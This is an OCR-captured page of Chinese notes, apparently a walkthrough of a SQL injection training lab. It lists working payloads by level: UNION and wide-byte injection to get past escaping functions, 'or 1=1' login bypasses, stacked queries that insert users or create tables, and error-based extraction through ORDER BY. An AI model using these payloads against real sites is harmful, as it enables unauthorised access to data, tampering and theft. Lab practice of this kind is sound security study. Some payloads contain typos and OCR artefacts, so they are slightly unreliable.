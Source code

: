 30. ?id=1&id=552"union select 1,2,3 --+

31. 单引号括号

32. 双引号括号

33. 加斜杠 宽字节注入get：?id=221%df'union select 1,2,3 --+   //利用字符串宽字节%df逃逸'  

34. 加斜杠绕过 宽字节注入post：

    1. 法1  post会经过urlencode转码，将'转为utf-16或32，万能密码登录  uname=221�'or 1=1#&passwd=1&submit=Submit  //查数据or与引号中间加sql语句

    2. 法2   bp拦截的是encode后的post数据，因此可以抓包后直接更改为  uname=221%df' or 1=1#

       uname=admin%df'or 1 limit 1,1#&passwd=aaa&submit=Submit*  //水平越权登录

35. 加斜杠绕过：?id=234%20union select 1,2,3 or%201=1#  

36. mysql_real_escape_string() 过滤get：?id=-1%df%27union select 1,2,3 --+  //宽字节注入

    ?id=-1%EF%BF%BD%27union select 1,2,3 --+   //数据库未设置gbk，可以利用utf-16加密绕过

37. mysql_real_escape_string() 过滤post：有urlencode，需要包传输修改为宽字节注入;另外还可以万能密码，uname=221�'or 1=1#&passwd=1&submit=Submit



**Page-3 堆叠注入**

38. 堆叠回显get：?id=1';insert into users(id,username,password) values('15','1','1')  --+  //create,insert需要不重复，update可重复，users后面列名可删除，values的单引号也可去除

39. 去掉单引号即可

40. 堆叠盲注get：加括号同上

41. 堆叠盲注get：纯数字注入

42. 报错堆叠注入post：login_user=admin&login_password=1';creat table 123 like users#&mysubmit=Login //注意提交的是login.php

43. 报错堆叠注入post：login_user=admin&login_password=1');creat table 123 like users#&mysubmit=Login //注意提交的是login.php

44. login_user=admin&login_password=1';creat table less44 like users#&mysubmit=Login 

45. login_user=admin&login_password=1');creat table less44 like users#&mysubmit=Login 

46. ORDER BY回显：

    1. ?sort=1 procedure analyse(extractvalue(rand(),concat(0x3a,version())),1)
    2. version()换成(select table_name from information_schema where table_schema='security')，爆库表列同
    3. select concat(列名) from 数据库.表名 limit x,x  //爆数据
    
47. ORDER BY回显：

    1. ?sort=1' and (select count( * ) from information_schema.columns group by concat(0x3a,0x3a,(select user()),0x3a,0x3a,floor(rand()*2)))--+  //替换user()
       ?sort=1' and (select * from (select NAME_CONST(version(),1),NAME_CONST(version(),1))x)--+  //利用重复报错注入

    2. ?sort=1' procedure analyse(extractvalue(rand(),concat(0x3a,version())),1) --+  //参数注入
